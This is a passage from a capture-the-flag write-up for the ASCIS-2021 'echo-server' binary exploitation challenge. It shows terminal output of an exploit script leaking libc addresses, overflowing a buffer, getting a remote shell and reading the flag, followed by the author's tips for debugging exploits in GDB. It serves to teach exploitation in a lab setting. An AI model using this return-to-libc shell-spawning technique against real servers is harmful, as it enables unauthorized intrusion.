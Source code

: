 ## Remote exploit
```bash
┌──(revirven㉿kali)-[~/Desktop/CTF/ASCIS-2021/echo-server]
└─$ python3 exploit.py
[*] '/home/revirven/Desktop/CTF/ASCIS-2021/echo-server/echoserver_2aa0a5dae5b5c2954ea6917acd01f49b'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] '/home/revirven/Desktop/CTF/ASCIS-2021/echo-server/libc6_2.31-0ubuntu9_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 125.235.240.166 on port 20101: Done
[*] Leaked puts address = 0x7ff5bd9f15a0
[*] Leaked gets address = 0xf0
[*] Libc base = 0x7ff5bd96a000
[*] /bin/sh = 0x7ff5bdb215aa
[*] system = 0x7ff5bd9bf410
[*] Switching to interactive mode
\x9f\xbd\AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUIT\x
$ ls -la
total 64
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 .
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 ..
-rwxr-x--- 1 0 1000   220 Feb 25  2020 .bash_logout
-rwxr-x--- 1 0 1000  3771 Feb 25  2020 .bashrc
-rwxr-x--- 1 0 1000   807 Feb 25  2020 .profile
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 bin
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 dev
-rw-r--r-- 1 0    0    28 Oct  7 10:56 flag
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 lib
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 lib32
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 lib64
drwxr-x--- 1 0 1000  4096 Oct  7 09:23 libx32
-rwxr-xr-x 1 0    0 14360 Oct  7 11:47 problem
$ cat flag
ASCIS{old_school_challenge}
```
## Several things for me to remember (you guys can skip this)
- Since PIE has been disabled, the addresses of PLT and GOT entries are static, only the addresses load from the shared library are dynamic
- You can debug your payload with GDB by:
    - Use `raw_input()` after `process()` - This will make the exploit script wait for inputs
    - At another terminal, run `gdb -p pid` (`pid` = process of the program - specified by `process()`), set breakpoints (usually after input function), then continue
    - Press Enter at the terminal running exploit script to send payload
- Even if the binary is stripped, you can still look into the assembly using `x/Ni <instruction address>` (`N` = the number of instructions from `instruction address`)
- gdb.attach sucks, don't use it.